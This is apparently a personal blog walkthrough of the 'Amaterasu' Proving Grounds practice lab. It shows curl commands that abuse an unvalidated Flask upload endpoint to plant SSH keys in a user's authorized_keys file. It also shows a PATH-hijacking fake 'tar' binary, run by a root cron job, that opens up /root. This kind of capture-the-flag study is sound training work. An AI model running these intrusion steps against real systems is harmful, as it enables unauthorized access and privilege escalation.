

<html>
  <head>
    <link rel="icon" href="/assets/imgs/beans.png" type="image/png">
  </head>
  
</html>

[Main Page](/index)

---

# Amaterasu

---

Today’s challenge is another on Lain’s list of OSCP like boxes from Proving Grounds Play! Let’s get cracking.

# Enumeration

---

First, I fired off this nmap scan to get a quick look at running services:

```bash
nmap --max-rate 10000 -p- -vv <ip>
```

I then passed the open ports into a scripts and service scan:

```bash
# Nmap 7.95 scan initiated Tue May  6 11:26:03 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -p21,25022,33414,40080 -oN nmap.initial 192.168.156.249
Nmap scan report for 192.168.156.249
Host is up (0.083s latency).

PORT      STATE  SERVICE          VERSION
21/tcp    open   ftp              vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.229
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
25022/tcp open   ssh              OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 68:c6:05:e8:dc:f2:9a:2a:78:9b:ee:a1:ae:f6:38:1a (ECDSA)
|_  256 e9:89:cc:c2:17:14:f3:bc:62:21:06:4a:5e:71:80:ce (ED25519)
33414/tcp open   http             Werkzeug httpd 2.2.3 (Python 3.9.13)
|_http-title: 404 Not Found
|_http-server-header: Werkzeug/2.2.3 Python/3.9.13
40080/tcp open   http             Apache httpd 2.4.53 ((Fedora))
|_http-title: My test page
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.53 (Fedora)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May  6 11:26:47 2025 -- 1 IP address (1 host up) scanned in 44.13 seconds

```

So, at a glance we have an FTP server, an SSH server on a high non-default port, a (most likely) flask web server, and a second web server running Apache, all running on (most likely) a Fedora Linux box.

## FTP

Searchsploiting the version pulls up a DOS vulnerability which is a finding but not going to help us here.



I tried connecting via anonymous login which worked, however I wasn't able to view anything.


So, I moved on to the next service.

## 30080 Apache

Next was this Apache server which had this old custom default page.


I tried running `feroxbuster` but didn’t get very much more than that.


Well, onto the next service.

## 33414 Python Flask

This flask site defaults to a `not found` page.


I decided to bust some directories, and for the sake of tool demonstration I used `gobuster` this time instead.


We get these `info` and `help` pages


The web page returns in json and tells us it is running `Python File Server REST API v2.5`. What sticks out to me is the `GET /file-list?dir=/tmp` and `POST /file-upload`. Let’s try the first one out:


Hmmm very interesting. It reminisces of a normal linux `tmp` directory. So I tried to list another directory:


Nice! This shows us that we have access to the file system. I decided to check the `home` directory for some user enumeration:


We see the user `alfredo`. Let’s see if we can read his home directory.


We can! Unfortunately, this rest api does not let us read files, giving us an internal error when we try.

So I went back to the `help` page and decided to try the `/file-upload` function. We have read over the file system. Let’s see if we have write as well! I tried uploading a file with curl.

```bash
┌──(kali㉿kali)-[~]
└─$ curl -F 'file=@test.html' 192.168.156.249:33414/file-upload
{"message":"No filename part in the request"}
```

It says we need a filename. Let’s try adding that

```bash
┌──(kali㉿kali)-[~]
└─$ curl -F 'filename=test.html' -F 'file=@test.html' 192.168.156.249:33414/file-upload
{"message":"Allowed file types are txt, pdf, png, jpg, jpeg, gif"}
```

Okay, so we’re only allowed a few file types. When I was first doing this box, I changed the name of my file I was trying to upload, however forget change the filename parameter. Despite this, the upload worked!

```bash
┌──(kali㉿kali)-[~]
└─$ curl -F 'filename=test.html' -F 'file=@test.txt' 192.168.156.249:33414/file-upload
{"message":"File successfully uploaded"}
```

And viewing the `tmp` directory:


Woop woop!! There it is. This tells us that the mechanism to check the file type only checks out `file` parameter.


We can also write to `alfredo`’s home directory, as you can see with my “fart.txt”. If you’ve followed so far and have experience with SSH, you can probably spot our way onto the machine.

# Exploitation

---

Since we have read/write access to `alfredo`’s home, we also can write to his `.ssh` folder. On our local kali box we can create some quick ssh keys and upload them to his `.ssh` folder. With those there we can use the ssh keys to login as `alfredo`

```bash
ssh_keygen
```

I will then change the extensions to ensure they match the extension check.

```bash
mv id_rsa id_rsa.txt
mv id_rsa.pub id_rsa.pub.txt
```

Then we can use our curl trick to upload them. I will uploadthe id_rsa.txt file into `.ssh/id_rsa` and `.ssh/authorized_keys` as well as id_rsa.pub.txt to `.ssh/id_rsa.pub` 

```bash
┌──(kali㉿kali)-[~/.ssh]
└─$ curl -F 'filename=/home/alfredo/.ssh/id_rsa' -F 'file=@id_rsa.txt' 192.168.156.249:33414/file-upload
{"message":"File successfully uploaded"}
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/.ssh]
└─$ curl -F 'filename=/home/alfredo/.ssh/authorized_keys' -F 'file=@id_rsa.pub.txt' 192.168.156.249:33414/file-upload
{"message":"File successfully uploaded"}
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/.ssh]
└─$ curl -F 'filename=/home/alfredo/.ssh/id_rsa.pub' -F 'file=@id_rsa.pub.txt' 192.168.156.249:33414/file-upload
{"message":"File successfully uploaded"}
                                             
```

With these files uploaded we should theoretically be able to ssh into the machine.

```bash
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh alfredo@192.168.156.249 -p 25022 -i id_rsa.txt                                                                                                                                            
Last login: Tue May  6 12:35:34 2025 from 192.168.45.229
[alfredo@fedora ~]$
```

And boom. Huston, we have a foothold!

# Privilege Escalation

---

Priv esc for this box is pretty straightforward. During my initial manual enumeration I found this cronjob run by root every minute


It is running a backup script for the flask service. Let’s see if we can read the contents.

```bash
[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

We can! And it looks pretty interesting. The basic functionality goes into alfredo’s home directory from which the flask application is running and zips it to /tmp. What’s interesting is that it adds the `restapi` directory to the start of it’s PATH variable.

This means that for any binary commands run by the script, it will first check the `/home/alfredo/restapi` directory. For example, the script runs the `tar` binary, and so the first place it will look for that binary is `/home/alfredo/restapi/tar`. And since we have write access to that folder we can place a fake `tar` binary that will get executed instead.

We can place any payload here, such as a reverse shell. However, I chose to write a simple c script that makes the `/root` folder world readable, allowing us to read the flag!

```bash
┌──(kali㉿kali)-[~/amaterasu]
└─$ cat fake.c    
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("chmod 777 /root/*");
    return 0;
}
```

We can then transfer and compile it, and move it into the `restapi` folder.

```bash
[alfredo@fedora ~]$ gcc fake.c -o tar
[alfredo@fedora ~]$ mv tar restapi
```

Then we just wait for 1 minute for the cron job to trigger, and then read the flag!

```bash
[alfredo@fedora ~]$ ls /root
anaconda-ks.cfg  build.sh  proof.txt  run.sh
[alfredo@fedora root]$ cat proof.txt 
5bc51725c047027dd230f8486576ec13
```

---

And that’s the machine!

Thanks for reading! Cheers
